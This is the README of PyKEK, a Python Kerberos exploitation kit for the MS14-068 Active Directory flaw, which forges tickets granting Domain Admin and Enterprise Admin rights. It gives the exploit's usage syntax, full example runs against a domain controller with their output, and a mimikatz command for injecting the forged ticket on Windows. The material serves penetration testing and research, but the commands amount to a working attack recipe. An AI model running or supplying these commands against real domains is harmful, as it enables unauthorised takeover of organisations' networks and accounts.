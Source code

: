 http://zone.wooyun.org/content/17102 
MS14-068 privilege escalation PoC: 可以让任何域内用户提升为域管理员

Python Kerberos Exploitation Kit
===

PyKEK (Python Kerberos Exploitation Kit), a python library to manipulate KRB5-related data. (Still in development)

For now, only a few functionalities have been implemented (in a quite Quick'n'Dirty way) to exploit  MS14-068 (CVE-2014-6324) .

More is coming...

# Author
Sylvain Monné

Contact : sylvain dot monne at solucom dot fr

http://twitter.com/bidord

Special thanks to: Benjamin DELPY `gentilkiwi`

# Library content
* kek.krb5: Kerberos V5 ([RFC 4120](https://tools.ietf.org/html/rfc4120)) ASN.1 structures and basic protocol functions
* kek.ccache: Credential Cache Binary Format ([cchache](http://www.gnu.org/software/shishi/manual/html_node/The-Credential-Cache-Binary-File-Format.html))
* kek.pac: Microsoft Privilege Attribute Certificate Data Structure ([MS-PAC](http://msdn.microsoft.com/en-us/library/cc237917.aspx))
* kek.crypto: Kerberos and MS specific cryptographic functions

# Exploits
## ms14-068.py
Exploits [MS14-680](https://technet.microsoft.com/en-us/library/security/ms14-068.aspx) vulnerability on an un-patched domain controler of an Active Directory domain to get a Kerberos ticket for an existing domain user account with the privileges of the following domain groups :
- Domain Users (513)
- Domain Admins (512)
- Schema Admins (518)
- Enterprise Admins (519)
- Group Policy Creator Owners (520)

### Usage :
```
USAGE:
ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr>

OPTIONS:
    -p <clearPassword>
 --rc4 <ntlmHash>
```
### Example usage :
#### Linux (tested with samba and MIT Kerberos)
```
root@kali:~/sploit/pykek# python ms14-068.py -u user-a-1@dom-a.loc -s S-1-5-21-557603841-771695929-1514560438-1103 -d dc-a-2003.dom-a.loc
Password: 
  [+] Building AS-REQ for dc-a-2003.dom-a.loc... Done!
  [+] Sending AS-REQ to dc-a-2003.dom-a.loc... Done!
  [+] Receiving AS-REP from dc-a-2003.dom-a.loc... Done!
  [+] Parsing AS-REP from dc-a-2003.dom-a.loc... Done!
  [+] Building TGS-REQ for dc-a-2003.dom-a.loc... Done!
  [+] Sending TGS-REQ to dc-a-2003.dom-a.loc... Done!
  [+] Receiving TGS-REP from dc-a-2003.dom-a.loc... Done!
  [+] Parsing TGS-REP from dc-a-2003.dom-a.loc... Done!
  [+] Creating ccache file 'TGT_user-a-1@dom-a.loc.ccache'... Done!
root@kali:~/sploit/pykek# mv TGT_user-a-1@dom-a.loc.ccache /tmp/krb5cc_0 
```
#### On Windows

```
python.exe ms14-068.py -u user-a-1@dom-a.loc -s S-1-5-21-557603841-771695929-1514560438-1103 -d dc-a-2003.dom-a.loc
mimikatz.exe "kerberos::ptc TGT_user-a-1@dom-a.loc.ccache" exit`
```
